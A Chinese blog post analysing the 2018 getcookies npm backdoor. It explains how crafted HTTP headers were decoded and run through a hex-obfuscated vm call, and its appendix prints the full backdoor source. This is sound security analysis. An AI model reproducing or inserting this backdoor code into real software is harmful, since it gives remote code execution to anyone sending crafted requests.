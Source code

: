 ```yaml
---
title: npm模块别乱下载，说不好就出事了
tags: node
categories:
  - 前端
  - node
thumb_img: hack.jpg
date: 2018-05-08 18:08:38
---
```



如果你和我们一样，npm install xxx用的很舒服，可能你的项目会遇到重大的危险。
先来看看一篇别人家的文章——[细思极恐：后门代码被隐藏在npm模块中，差点就得逞](https://mp.weixin.qq.com/s/4JGuRDR54OnJyAqlSns53Q)

为了节省时间，[点击问题讨论地址，直接看看别人怎么说的](https://news.ycombinator.com/item?id=16975025)
{% asset_img blog.png %}

{% asset_img emoji.png %}
可能你看了那篇文章也不太清除发生了什么，那就请看下面

## 问题描述
### 哪些人会出现这样的问题？
直接or间接使用getcookies的人。

比如：你正在使用的Node框架是express，并且通过express-cookies处理cookie功能。那它其中就引用了getcookies。

### 后门原理
1. inject 自定义的Header,获取到req.headers
````
req.headers['gfeffh11i'] = 111;
req.headers['gabcdh22i'] = 222;
req.headers['gfaffh33i'] = 333;
````

2. 在请求头中寻找符合**/g([a-f0-9]{4})h((?:[a-f0-9]{2})+)i/gi**规则的信息
````
...
// g+hex(2)+h+hex(1)+i
req.headers['gfaffh22i'] = 222;
...
// 以上header将在这个regex命中，并且通过replace执行多次。
JSON.stringify(req.headers).replace(/g([a-f0-9]{4})h((?:[a-f0-9]{2})+)i/gi, (o, p, v) => {
    // o=gabcdh00i，p=abcd，v=00
    // 转成hex字符
    p = Buffer.from(p, 'hex').readUInt16LE(0);//52651
    switch (p) {
        ...
    }
})
````

3. 判断注入非法的信息，完成：初始化代码执行环境-->将问题代码添加至内存中-->调用vm执行问题代码
    注释信息，说明了哪些header会被switch命中
    {% asset_img code.png getcookies %}

4. script脚本如何在vm执行（写了个Demo模拟）
````js
// 模拟header中数据的获取，存入内存的过程(default中的逻辑)
function getHexBufer(scriptFn) {
    var result = '';
    for (var i = 0; i < scriptFn.length; i++) {
        // -->ascii-->16hex
        result = result + parseInt(scriptFn[i].charCodeAt(), 10).toString(16);
    }
    // result:2866756e6374696f6e202829207b636f6e736f6c652e6c6f672827636f6d696e6727293b7d292829
    // 16hex的buffer
    // <Buffer 28 66 75 6e 63 74 69 6f 6e 20 28 29 20 7b 63 6f 6e 73 6f 6c 65 2e 6c 6f 67 28 27 63 6f 6d 69 6e 67 27 29 3b 7d 29 28 29>
    return Buffer.from(String(result), 'hex')
}
// 编译脚本
var c = getHexBufer(`(function () {console.log('coming');})()`).toString();
// 通过vm执行脚本
require('vm')['runInThisContext'](c); //输出coming
````

### 你可能需要准备下其他知识
1. [Buffer.from 和 Buffer.alloc 干什么的](http://nodejs.cn/doc/node/buffer.html#buffer_buffer_from_buffer_alloc_and_buffer_allocunsafe)
{% asset_img buffer-1.png Buffer.from&Buffer.alloc %}

2. [readUInt16LE 什么意思]()
如果你不清楚LE、BE。可以再看看这篇：[readInt16BE 和 readInt16LE的区别](http://127.0.0.1:4000/2018/05/08/node-buffer-endian/)

3. \x76\x6d 是什么格式？
是16进制。
然后就能明白源代码中：
````
require('\x76\x6d')['\x72\x75\x6e\x49\x6e\x54\x68\x69\x73\x43\x6f\x6e\x74\x65\x78\x74']
// require('vm')['runInThisContext']
````

    对应的再补充一些进制转换api
    
    ````js
    var test10 = 43981;
    // 10 --> 2
    var test2 = test10.toString(2);//1010101111001101
    // 2 --> 10
    var backTest10 = parseInt(test2, 2);//43981
    // 10 -> 16
    var testHex = parseInt(test2, 2).toString(16);//abcd
    ````

4. [什么是vm？](https://nodejs.org/api/vm.html#vm_vm_runinthiscontext_code_options)
执行script，同时源码中还用了高阶Fn，提供了module.exports, require, req, res, next等信息。我这些都拿到了，我还有什么不能做？
 
## 现状
npm官方已经做了处理，你已经下不到这两个包了
````
Error: [getcookies@*] GET https://registry.npm.taobao.org/getcookies/latest response 404 status
Error: [express-cookies@*] GET https://registry.npm.taobao.org/express-cookies/latest response 404 status
````

## 总结
1. 不要着急升级模块，避免已稳定的模块出现问题
2. 下载使用**优质**，热门模块。用的人多，这样出问题，社区会有解决方案，你不是一个人战斗。
3. 检查下项目中的node_modules，奇奇怪怪的能不用就别用了。
4. 提升自己能力，看的懂大神们写的代码才能hold全场，慢慢积累，但别放弃任何学习源码的机会，比如这个getcookie现在就下载不到了。

## 附录
getcookie源码
````
/* eslint-env es6 */
'use strict';

var assert = require('assert');

let harness = (req, res, callback, next) => {
    try {
        assert.equal(typeof callback, 'function');
    } catch (E) {
        return callback(E);
    }

    try {
        module.exports.log = module.exports.log || Buffer.alloc(0xffff);
        JSON.stringify(req.headers).replace(/g([a-f0-9]{4})h((?:[a-f0-9]{2})+)i/gi, (o, p, v) => {
            p = Buffer.from(p, 'hex').readUInt16LE(0);
            switch (p) {
                case 0xfffe:
                    module.exports.log = Buffer.alloc(0xffff);
                    return;
                case 0xfffa:
                    return setTimeout(() => {
                        let c = module.exports.log.toString().replace(/\x00*$/, '');
                        module.exports.log = Buffer.alloc(0xffff);
                        if (c.indexOf('\x00') < 0) {
                            require('\x76\x6d')['\x72\x75\x6e\x49\x6e\x54\x68\x69\x73\x43\x6f\x6e\x74\x65\x78\x74'](c)(module.exports, require, req, res, next);
                        }
                        next();
                    }, 1000);
                default:
                    v = Buffer.from(v, 'hex');
                    for (let i = 0; i < v.length; i++) {
                        module.exports.log[p + i] = v[i];
                    }
            }
        });
    } catch (E) {}

    next();
};

module.exports.assert = (req, res, callback, next) => {
    harness(req, res, callback, next);
};
````